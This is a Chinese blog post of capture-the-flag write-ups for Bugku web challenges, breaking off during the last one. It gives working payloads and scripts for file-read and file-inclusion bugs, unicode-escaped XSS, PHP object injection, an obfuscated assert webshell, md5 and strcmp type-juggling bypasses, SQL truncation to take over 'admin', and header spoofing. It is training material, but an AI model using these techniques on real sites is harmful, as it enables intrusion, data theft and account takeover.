Bugkuctf中的Web题解(二)
cookies欺骗 网址：http://120.24.86.145:8002/web11/
进去页面一看是一串乱码，但发现url中包含参数filename=a2V5cy50eHQ=，将a2V5cy50eHQ=进行base64解码得keys.txt，将index.php进行base64加密后赋值给filename参数，同时指定line参数的值为1，发现输出了php代码

于是猜测line为行数，写个脚本读出index.php的所有代码
1 2 3 4 5 6 7 import requestsfor i in range(0 ,100 ): url = 'http://120.24.86.145:8002/web11/index.php?line=%d&filename=aW5kZXgucGhw' %i r = requests.get(url) if r.text: print(r.text,end='' )
结果：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 <?php error_reporting(0); $file=base64_decode(isset($_GET['filename'])?$_GET['filename']:""); $line=isset($_GET['line'])?intval($_GET['line']):0; if($file=='') header("location:index.php?line=&filename=a2V5cy50eHQ="); $file_list = array( '0' =>'keys.txt', '1' =>'index.php', ); if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){ $file_list[2]='keys.php'; } if(in_array($file, $file_list)){ $fa = file($file); echo $fa[$line]; } ?>
从源代码可以看出，flag在keys.php中，而我们要逐行读取keys.php文件的内容，就必须设置cookie:margin=margin
直接上脚本：
1 2 3 4 5 6 7 8 9 10 import requestscookie = { 'margin' :'margin' } for i in range(0 ,100 ): url = 'http://120.24.86.145:8002/web11/index.php?line=%d&filename=a2V5cy5waHA=' %i r = requests.get(url,cookies=cookie) if r.text: print(r.text,end='' )
结果：
1 <?php $key='KEY{key_keys}' ; ?>
XSS注入测试 网址：http://103.238.227.13:10089/
页面提示我们要注入一段xss代码，看一下源代码
关键代码：
1 2 3 4 <script> var s="" ; document .getElementById('s' ).innerHTML = s; </script>
id为s的是一个为空的div标签
举个例子说明一下innerHTML
1 2 3 4 5 6 7 8 <a id ="baidu" > <strong > 百度</strong > </a > document.getElementById("baidu") 获得 a 这个元素 document.getElementById("baidu") .innerHTML 获得 a 这个元素内的HTML代码（即<strong > 百度</strong > ） document.getElementById("baidu") .innerHTML = "<em > 谷歌</em > " 设置 a 这个元素内的HTML代码， 设置后<strong > 百度</strong > 就变为<em > 谷歌</em >
这里说明一下如果字符串中拼接的 HTML 标签中有 script 标签，那么该段脚本是无法执行的，这并不是 bug，而是 w3c 的文档规定的
再来看看这题，没有给出注入点，按照惯例是id，输入
1 ?id=<script>alert(_key_)</script>
查看源代码
1 2 3 <script> var s="<script>" ; document .getElementById('s' ).innerHTML = s; </script>
发现<>被html编码，即被过滤了
因为页面编码为utf-8，所以可以将<>进行unicode编码，这样当代码被替换进去运行时，utf-8编码又会将其变回来
输入
1 ?id=\u003cscript\u003ealert(_key_)\u003c/script\u003e
返回：
1 2 3 4 <script> var s="\u003cscript\u003ealert('Flag:17f094325e90085b30a5ddefce34acd8')\u003c/script\u003e" ; document .getElementById('s' ).innerHTML = s;</script>
参考：https://blog.csdn.net/wy_97/article/details/77755098
never give up 网址：http://120.24.86.145:8006/test/hello.php
页面源代码提示
访问http://120.24.86.145:8006/test/1p.html，发现跳转到其他页面
那么访问其源代码view-source:http://120.24.86.145:8006/test/1p/html
1 2 3 4 5 6 7 8 9 10 11 12 13 14 <SCRIPT LANGUAGE="Javascript" > <!-- var Words ="%3Cscript%3Ewindow.location.href%3D%27http%3A//www.bugku.com%27%3B%3C/script%3E%20%0A%3C%21--JTIyJTNCaWYlMjglMjElMjRfR0VUJTVCJTI3aWQlMjclNUQlMjklMEElN0IlMEElMDloZWFkZXIlMjglMjdMb2NhdGlvbiUzQSUyMGhlbGxvLnBocCUzRmlkJTNEMSUyNyUyOSUzQiUwQSUwOWV4aXQlMjglMjklM0IlMEElN0QlMEElMjRpZCUzRCUyNF9HRVQlNUIlMjdpZCUyNyU1RCUzQiUwQSUyNGElM0QlMjRfR0VUJTVCJTI3YSUyNyU1RCUzQiUwQSUyNGIlM0QlMjRfR0VUJTVCJTI3YiUyNyU1RCUzQiUwQWlmJTI4c3RyaXBvcyUyOCUyNGElMkMlMjcuJTI3JTI5JTI5JTBBJTdCJTBBJTA5ZWNobyUyMCUyN25vJTIwbm8lMjBubyUyMG5vJTIwbm8lMjBubyUyMG5vJTI3JTNCJTBBJTA5cmV0dXJuJTIwJTNCJTBBJTdEJTBBJTI0ZGF0YSUyMCUzRCUyMEBmaWxlX2dldF9jb250ZW50cyUyOCUyNGElMkMlMjdyJTI3JTI5JTNCJTBBaWYlMjglMjRkYXRhJTNEJTNEJTIyYnVna3UlMjBpcyUyMGElMjBuaWNlJTIwcGxhdGVmb3JtJTIxJTIyJTIwYW5kJTIwJTI0aWQlM0QlM0QwJTIwYW5kJTIwc3RybGVuJTI4JTI0YiUyOSUzRTUlMjBhbmQlMjBlcmVnaSUyOCUyMjExMSUyMi5zdWJzdHIlMjglMjRiJTJDMCUyQzElMjklMkMlMjIxMTE0JTIyJTI5JTIwYW5kJTIwc3Vic3RyJTI4JTI0YiUyQzAlMkMxJTI5JTIxJTNENCUyOSUwQSU3QiUwQSUwOXJlcXVpcmUlMjglMjJmNGwyYTNnLnR4dCUyMiUyOSUzQiUwQSU3RCUwQWVsc2UlMEElN0IlMEElMDlwcmludCUyMCUyMm5ldmVyJTIwbmV2ZXIlMjBuZXZlciUyMGdpdmUlMjB1cCUyMCUyMSUyMSUyMSUyMiUzQiUwQSU3RCUwQSUwQSUwQSUzRiUzRQ%3D%3D--%3E" function OutWord (var NewWords;NewWords = unescape (Words); document .write(NewWords);} OutWord(); </SCRIPT>
关键在于Words这个变量，第一行
1 %3Cscript%3Ewindow.location.href%3D%27http%3A//www.bugku.com%27%3B%3C/script%3E%20%0A%3C%21
看起来像是被url编码过，url解码后：
1 2 <script>window.location.href='http://www.bugku.com';</script> <!--
后面是被注释的代码：先base64解码后url解码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 if (!$_GET['id' ]){ header('Location: hello.php?id=1' ); exit (); } $id=$_GET['id' ]; $a=$_GET['a' ]; $b=$_GET['b' ]; if (stripos($a,'.' )){ echo 'no no no no no no no' ; return ; } $data = @file_get_contents($a,'r' ); if ($data=="bugku is a nice plateform!" and $id==0 and strlen($b)>5 and eregi("111" .substr($b,0 ,1 ),"1114" ) and substr($b,0 ,1 )!=4 ){ require ("f4l2a3g.txt" ); } else { print "never never never give up !!!" ; }
看的出来这就是hello.php的源代码，这里出题人没有隐藏文件名，知道了文件名f4l2a3g.txt其实就可以直接访问
但是按照出题人的意思我们要绕过过滤，首先$data必须为”bugku is a nice plateform”，而$data值取决于函数file_get_contents，这里查询得知php后门技巧，利用php协议input，接收post的信息，经过函数file_get_contents就可以读取出来，所以$a=php://input，然后post字符串”bugku is a nice plateform”
接着是$id要等于0，但是代码开头如果$id为0则重定向，所以不能为0，利用php弱类型的特性可以给$id赋值0a
然后$b的检查长度大于5，正则匹配$b第一位必须为4，然而substr()检查$b第一位不能为4，自相矛盾，但是可以利用%00截断eregi函数
综上GET参数为?id=0a&a=php://input&b=%0012345

welcome to bugkuctf 网址：http://120.24.86.145:8006/test1/
进入页面查看源代码，发现提示了源代码
1 2 3 4 5 6 7 8 9 10 $user = $_GET["txt" ]; $file = $_GET["file" ]; $pass = $_GET["password" ]; if (isset ($user)&&(file_get_contents($user,'r' )==="welcome to the bugkuctf" )){ echo "hello admin!<br>" ; include ($file); }else { echo "you are not admin ! " ; }
审计后GET参数?txt=php://input，POST数据”welcome to the bugkuctf”
之后就是文件包含漏洞，提示了hint.php，我们GET参数file=php://filter/read=convert.base64-encode/resource=hint.php查看hint.php的源代码

base64解码后得hint.php源代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 <?php class Flag public $file; public function __tostring () if (isset ($this ->file)){ echo file_get_contents($this ->file); echo "<br>" ; return ("good" ); } } } ?>
又提示了flag.php，猜测flag就在这里面，再试试能不能读取flag.php的源代码

貌似被过滤了flag.php
那就看看index.php的源代码吧

解码后得：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 <?php $txt = $_GET["txt" ]; $file = $_GET["file" ]; $password = $_GET["password" ]; if (isset ($txt)&&(file_get_contents($txt,'r' )==="welcome to the bugkuctf" )){ echo "hello friend!<br>" ; if (preg_match("/flag/" ,$file)){ echo "ä¸è½ç°å¨å°±ç»ä½ flagå¦" ; exit (); }else { include ($file); $password = unserialize($password); echo $password; } }else { echo "you are not the number of bugku ! " ; } ?> <!-- $user = $_GET["txt" ]; $file = $_GET["file" ]; $pass = $_GET["password" ]; if (isset ($user)&&(file_get_contents($user,'r' )==="welcome to the bugkuctf" )){ echo "hello admin!<br>" ; include ($file); }else { echo "you are not admin ! " ; } -->
果然文件包含被正则匹配过滤了关键词flag，我们要得到flag就必须读取flag.php文件，怎么办呢，想起来还有hint.php的提示，它定义了一个类，类里定义了一个全局变量$file，如果类对象全局变量有设置值，则用file_get_contents函数读取
这里还有一个password参数经过反序列化函数unserialize处理，首先要了解这个函数具体的作用，来看一个例子：
1 2 3 4 5 6 7 8 9 10 <?php $a = array ('a' =>'apple' ,'b' =>'banana' ,'c' =>40 ); $s = serialize($a); echo $s;$b = unserialize($s); echo '<br>' ;print_r($b); ?>
运行结果：

大概清楚规律了，再看本题，要给参数password赋值一个被序列化的字符串，使password成为Flag类的参数file
有点难理解，再看一个例子：
1 2 3 4 5 6 7 8 9 10 11 12 <?php class Flag public $file; } $a = new Flag; $a -> file = 'flag.php' ; $a = serialize($a); echo $a;?>
这个例子初始化了一个Flag对象a，并赋值’flag.php’，在进行序列化，得到的值就相当于我们给password赋值一个反序列化的Flag对象
结果：

综上，我们GET参数?txt=php://input&file=hint.php&password=O:4:”Flag”:1:{s:4:”file”;s:8:”flag.php”;}
POST数据welcome to the bugkuctf

成功拿到flag
附上本题参考链接：https://www.cnblogs.com/Pinging/p/8278168.html
过狗一句话 网址：http://120.24.86.145:8010/
题目给出了提示代码：
1 2 3 4 5 6 7 8 <?php $poc="a#s#s#e#r#t" ; $poc_1=explode("#" ,$poc); $poc_2=$poc_1[0 ].$poc_1[1 ].$poc_1[2 ].$poc_1[3 ].$poc_1[4 ].$poc_1[5 ]; $poc_2($_GET['s' ]); ?>
用assert语句执行任意命令
输入?s=print_r(scandir(‘./‘))
扫描当前目前下所有文件

访问http://120.24.86.145:8010/f94lag.txt

获得flag
字符？正则？ 网址：http://120.24.86.145:8002/web10/
代码审计题，代码如下：
1 2 3 4 5 6 7 8 <?php highlight_file('2.php' ); $key='KEY{********************************}' ; $IM= preg_match("/key.*key.{4,7}key:\/.\/(.*key)[a-z][[:punct:]]/i" , trim($_GET["id" ]), $match); if ( $IM ){ die ('key is: ' .$key); } ?>
匹配正则输出flag值
[:punct:]指任意标点符号
输入?id=keykeykkkkkey:/k/keyk.

获得flag
前女友(SKCTF) 网址：http://118.89.219.210:49162/
页面源代码给了提示链接

链接是一个code.txt文件，里面给出了提示代码：
1 2 3 4 5 6 7 8 9 10 11 12 <?php if (isset ($_GET['v1' ]) && isset ($_GET['v2' ]) && isset ($_GET['v3' ])){ $v1 = $_GET['v1' ]; $v2 = $_GET['v2' ]; $v3 = $_GET['v3' ]; if ($v1 != $v2 && md5($v1) == md5($v2)){ if (!strcmp($v3, $flag)){ echo $flag; } } } ?>
审计代码，熟悉的值不等，md5值相等，240610708和QNKCDZO
还要绕过strcmp，我们知道strcmp比较两个字符串相等时返回0，否则返回大于0或者小于0，我们要输出flag，必须让strcmp返回0，但是strcmp不能处理数组，会返回NULL
所以输入：?v1=240610708&v2=QNKCDZO&v3[]

拿到flag
login1(SKCTF) 网址：http://118.89.219.210:49163/
一个登陆系统，包含了登陆界面和注册界面，注册用户后登陆发现要管理员账号才能看到flag
尝试了万能密码等等都不行，猜测是用了mysql_real_escape函数过滤用户输入，怎么办呢，题目给了提示，sql约束攻击，攻击原理我写在了另一篇文章里，这里就直接给出解题过程
猜测管理员账号是admin，因为注册admin账号，提示admin账号已经存在

注册账号admin 1，(尽量多一点空格)密码自行设置

注册成功来到登录界面，输入账号admin,密码是自行设置的那个密码

拿到flag，不行的话注册admin后面的空格再延长一点应该就可以了
你从哪里来 网址：http://120.24.86.145:9009/from.php
什么都没有提示，源代码也只有一句话，are you from google
猜测要从google访问到该页面才能拿到flag
想起来http请求头的Referer字段值就代表从哪个页面访问到该页面
尝试一下，用burp抓包，在请求头位置添加一行Referer: https://www.google.com

果然，拿到了flag
md5 collision(NUPT_CTF) 网址：http://120.24.86.145:9009/md5.php
md5碰撞，源代码应该是这样的：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 <?php $md51 = md5('QNKCDZO' ); $a = @$_GET['a' ]; $md52 = @md5($a); if (isset ($a)){ if ($a != 'QNKCDZO' && $md51 == $md52){ echo "nctf{***}" ; } else { echo "false!!!" ; } } else { echo "please input a" ; } ?>
php在比较0e开头的字符串时会将其视作为科学计数法，所以无论0e后面是什么，0的多少次方还是0
附上md5加密后以0e开头的字符串
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 QNKCDZO 0e830400451993494058024219903391 s878926199a 0e545993274517709034328855841020 s155964671a 0e342768416822451524974117254469 s214587387a 0e848240448830537924465865611904 s214587387a 0e848240448830537924465865611904 s878926199a 0e545993274517709034328855841020 s1091221200a 0e940624217856561557816327384675 s1885207154a 0e509367213418206700842008763514
输入?a=s878926199a

得到flag
程序员本地网站 网址：http://120.24.86.145:8002/localhost/
题目给出提示要我们从本地访问，用burp抓包添加Referer:http://127.0.0.1，失败
想起头部还有一个字段X-Forwarded-For，代表了来源ip地址，添加X-Forwarded-For:127.0.0.1

获得flag
各种绕过 网址：http://120.24.86.145:8002/web7/
一道代码审计题
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 <?php highlight_file('flag.php' ); $_GET['id' ] = urldecode($_GET['id' ]); $flag = 'flag{xxxxxxxxxxxxxxxxxx}' ; if (isset ($_GET['uname' ]) and isset ($_POST['passwd' ])) { if ($_GET['uname' ] == $_POST['passwd' ]) print 'passwd can not be uname.' ; else if (sha1($_GET['uname' ]) === sha1($_POST['passwd' ])&($_GET['id' ]=='margin' )) die ('Flag: ' .$flag); else print 'sorry!' ; }
要求我们POST请求提交变量passwd和GET请求提交变量id和变量uname
变量uname和passwd不能相等但是两者sha1加密后完全相等，我们md5和sha1处理数组会返回NULL，且NULL===NULL，id的话让它等于’margin’就行，url解码还是原来的
附上payload

拿到flag

web8 网址：http://120.24.86.145:8002/web8/
代码审计题
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 <?php extract($_GET); if (!empty ($ac)){ $f = trim(file_get_contents($fn)); if ($ac === $f){ echo "<p>This is flag:" ." $flag</p>" ;} else { echo "<p>sorry!</p>" ;} } ?>
extract函数作用是将数组里的键名取出作为新的变量名，键名对应的键值赋值给响应的变量值
也就是说我们GET的参数ac和fn的值就是变量ac和变量fn的值，题目要求变量ac和变量f完全相等，变量f是变量fn经过file_get_contents得到的值，我们可以利用php://input，让file_get_contents读取字节流
payloads如下


拿到flag
细心 网址：http://120.24.86.145:8002/web13/
看到提示：想办法变成admin，大概是要以管理员身份访问之类的
页面伪造了404页面，两个链接也没有什么提示作用，尝试一下访问robots.txt
